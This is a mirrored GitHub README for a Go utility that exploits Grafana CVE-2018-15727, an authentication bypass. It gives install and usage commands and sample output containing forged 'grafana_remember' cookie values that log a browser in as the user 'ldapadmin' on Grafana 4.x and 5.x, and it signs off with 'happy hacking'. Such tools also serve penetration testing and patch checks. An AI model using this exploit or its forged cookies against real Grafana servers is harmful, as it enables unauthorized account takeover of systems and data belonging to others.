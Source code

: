 # grafana-CVE-2018-15727

a small utility to generate a cookie in order to exploit a grafana vulnerability (CVE-2018-15727)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/u238](https://github.com/u238) |
| Url      | [https://github.com/u238/grafana-CVE-2018-15727](https://github.com/u238/grafana-CVE-2018-15727)                                               |
| Stars    | 22                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# Grafana CVE-2018-15727 exploit
## Installation
```
$ go get github.com/u238/grafana-CVE-2018-15727
```

## Usage
```
$ source <(go env)
$ $GOPATH/bin/grafana-CVE-2018-15727 ldapadmin
[i] delete the grafana_sess cookie from your browser session
[i] set following cookies in you browser:
 * for Grafana 5.x:
   grafana_user      : ldapadmin
   grafana_remember  : 8947f2c6b81963b2a45f4293ced63802f0c923daa368a9beda748800335fc72c06ea186e43
 * for Grafana 4.x:
   grafana_user      : ldapadmin
   grafana_remember  : 8d26614cd6a92aaf892eebb066ae17ed65ef6c9bea73f875ed6698a907d807db0026787fc3
[+] happy hacking ;) 
```

## LICENSE

See LICENSE file.



## Get the content

```
git clone https://github.com/u238/grafana-CVE-2018-15727
cd grafana-CVE-2018-15727
```

{% embed url="https://github.com/u238/grafana-CVE-2018-15727" %}

<figure><img src="https://avatars.githubusercontent.com/u/2368573?v=4" alt=""><figcaption><p>u238</p></figcaption></figure>
